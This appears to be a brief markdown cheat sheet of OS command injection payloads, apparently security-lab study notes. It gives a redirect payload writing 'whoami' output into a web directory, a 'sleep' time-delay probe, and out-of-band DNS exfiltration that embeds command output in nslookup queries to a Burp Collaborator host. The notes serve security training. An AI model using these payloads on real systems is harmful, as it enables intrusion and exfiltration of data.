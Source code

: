 ### Redirect Command Injection
`whoami > /var/www/images/output.txt #`
  + `#` used to _comment out_ stuff _AFTER payload_


### Blind Injection: Time Delays
`sleep 10 #`
  + `#` used to _comment out_ stuff _AFTER payload_
  
  
### Blind Injection: Out-0f-Band Communication

1. Open `Burp Collaborator Client`
  + Navigate to:
   - Burp -> Burp Collaborator Client

-----------------------------------------------------------------------

2. Use _DNS lookup_ to do **out-of-band / blind** _command injection_

```Example_cmd
    nslookup randomstuff.burpcollaborator.net #
```
  + `#` used to _comment out_ stuff _AFTER payload_
  + `nslookup` used for _DNS lookup_ (use `burpcollaborator.net`)

-----------------------------------------------------------------------

3. **Embed command** into _command injection_

```Example_Cmds_With_Embedded_$(whoami)_command
nslookup `whoami`.bt82fvhfm8v8bcfri5e1gp72itojc8.burpcollaborator.net #
nslookup $(whoami).bt82fvhfm8v8bcfri5e1gp72itojc8.burpcollaborator.net #
```
  + Using `backtick` and `$()` to embed _command injection_ within the _DNS Lookup_

-----------------------------------------------------------------------

